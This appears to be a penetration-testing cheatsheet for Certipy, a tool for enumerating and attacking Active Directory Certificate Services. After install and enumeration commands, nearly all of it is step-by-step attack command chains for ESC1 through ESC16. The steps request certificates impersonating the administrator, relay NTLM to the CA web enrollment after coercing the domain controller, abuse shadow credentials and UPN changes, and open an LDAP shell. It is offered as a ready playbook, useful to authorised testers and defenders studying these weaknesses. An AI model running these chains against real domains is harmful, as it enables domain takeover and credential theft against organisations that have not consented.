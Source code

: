 ```yaml
---
title: Certipy Cheatsheet
author: Kasem Shibli
date: 2025-10-27 11:45:00 +/-TTTT
categories: [CheetSheets]
tags: [certipy]
---
```

# Certipy - AD CS Attack & Enumeration Toolkit
# Installation
https://github.com/ly4k/Certipy/wiki/04-%E2%80%90-Installation

## Using pip

```bash
$ sudo apt update && sudo apt install -y python3 python3-pip
$ python3 -m venv certipy-venv
$ source certipy-venv/bin/activate
$ pip install certipy-ad

```
## Using pipx

```bash
$ pipx install -f "git+https://github.com/ly4k/Certipy.git"
```
## Using uv

```
$ uv tool install git+https://github.com/ly4k/Certipy --force
```
# Enumeration
Search for vulnerable certificate templates

```bash
$ certipy find -u username -p password -dc-ip ip -target dc -enabled -vulnerable -stdout
```
Find PKI Enrollment Services in Active Directory and Certificate Templates Names

```bash
$ nxc ldap target -u username -p password -M adcs
```
Anonymously uses RPC endpoints to hunt for ADCS CAs

```bash
$ nxc smb target -M enum_ca
```

# Attacks
## ESC1

```bash
$ impacket-addcomputer domain/username:password -computer-name computer_name -computer-pass computer_password

$ certipy req -u computer_name -p computer_password -ca ca -target domain -template template -upn administrator -dc-ip ip

Or

$ certipy req -u username -p password -ca ca -target domain -template template -upn administrator -dc-ip ip

    If you run certipy and see Minimum RSA Key Length : 4096, you may need to provide the -key-size 4096 option

$ certipy req -u username -p password -ca ca -target domain -template template -upn administrator -dc-ip ip -key-size 4096

$ certipy auth -pfx administrator.pfx -domain domain -u username -dc-ip ip

$ certipy req -u username -p password -ca ca -target domain -template template -upn administrator -sid <administrator sid> -dc-ip ip 

```

## ESC3
```bash 
$ certipy req -u username -p password -ca ca -target domain -template template

$ certipy req username -p password -ca ca -target domain -template User -on-behalf-of administrator -pfx pfx_file

$ certipy auth -pfx administrator.pfx -dc-ip ip
```

## ESC4
```bash
$ certipy template -u username@domain -p password -template template -write-default-configuration -no-save

$ certipy req -u username@domain -p password -ca ca -template template -upn administrator@domain

$ certipy auth -pfx administrator.pfx -dc-ip ip

```

## ESC7
```bash
$ certipy ca -ca ca -add-officer username -u username@domain -p password -dc-ip ip -dns-tcp -ns ip

$ certipy ca -ca ca -enable-template SubCA -u username@domain -p password -dc-ip ip -dns-tcp -ns ip

$ certipy req -u username@domain -p password -ca ca -target ip -template SubCA -upn username@domain

$ certipy ca -ca ca -issue-request request_ID -u username@domain -p password

$ certipy req -u username@domain -p password -ca ca -target ip -retrieve request_ID

$ certipy auth -pfx pfx_file -domain domain -u username -dc-ip ip
```

## ESC8
```bash
$ ntlmrelayx.py -t http://domain/certsrv/certfnsh.asp -smb2support --adcs --template template --no-http-server --no-wcf-server --no-raw-server

$ coercer coerce -u username -p password -l ws_ip -t dc_ip --always-continue

$ certipy auth -pfx administrator.pfx
```

## ESC9
```bash
$ certipy shadow auto -u username@domain -hashes :hash -account target_username

$ certipy account update -u username@domain -hashes :hash -user target_username -upn administrator

$ certipy req -u target_username@domain -hashes :target_hash -ca ca -template template -target dc_ip

$ certipy account update -u username@domain -hashes :hash -user target_username -upn target_username

$ certipy auth -pfx administrator.pfx -domain domain
```

## ESC10
### Enumeration
```powershell
$ Get-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\Kdc' -Name StrongCertificateBindingEnforcement

$ Get-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\Schannel' -Name CertificateMappingMethods
```
### Exploitation
Case 2
```bash
$ certipy account -u username@domain -p password -dc-ip ip -target dc -upn dc$@domain -user victim update

$ impacket-getTGT domain/victim:password -dc-ip ip

$ export KRB5CCNAME=victim.ccache

$ certipy req -k -dc-ip ip -target dc -ca ca -template User

$ certipy account -k -dc-ip ip -target dc -upn victim@domain -user victim update

$ certipy auth -pfx dc.pfx -dc-ip ip -ldap-shell


# whoami
u:DOMAIN\DC$

# set_rbcd DC$ Machine_Account$
```

## ESC13
```bash
$ certipy req -u username -p password -ca ca -target domain -template template -dc-ip ip

$ certipy auth -pfx file.pfx -dc-ip ip

```

## ESC14
### [ADCS ESC14 Abuse Technique](https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9#4a82)
```bash
$ bloodyAD --host dc -d domain -u username -p password set object target altSecurityIdentities -v 'X509:<RFC822>target@domain'

$ bloodyAD --host dc -d domain -u owned_user -p password set object target mail -v target@domain

$ certipy account update -u owned_user@domain -p password -user username -upn target

$ certipy req -u username -p password -ca ca -template template -dc-ip ip

$ certipy account update -u owned_user -p password -user username -upn username@domain -dc-ip ip

$ certipy auth -pfx pfx -dc-ip ip -user target -domain domain
```

## ESC15
### Scenario A
```bash
$ certipy req -u username@domain -p password -dc-ip ip -target dc -ca ca -template template -upn administrator@domain -sid <administrator sid> -application-policies 'Client Authentication'

$ certipy auth -pfx administrator.pfx -dc-ip ip -ldap-shell
```
### Scenario B
```bash
$ certipy req -u username@domain -p password -dc-ip ip -ca ca -template WebServer -application-policies 'Certificate Request Agent'

$ certipy req -u username@domain -p password -dc-ip ip -ca ca -template User -pfx user.pfx -on-behalf-of 'DOMAIN\Administrator'

$ certipy auth -pfx administrator.pfx -dc-ip ip
```

## ESC16

We use a user that has GenericAll or GenericWrite
```bash
$ certipy account -u owned_user@domain -p password -dc-ip ip -upn administrator -user username update

$ certipy req -u username@domain -p password -dc-ip ip -target dc -ca ca -template User -upn administrator@domain -sid <administrator sid>

$ certipy account -u owned_user@domain -p password -dc-ip ip -upn username -user username update

$ certipy auth -pfx administrator.pfx -dc-ip ip -domain domain
```
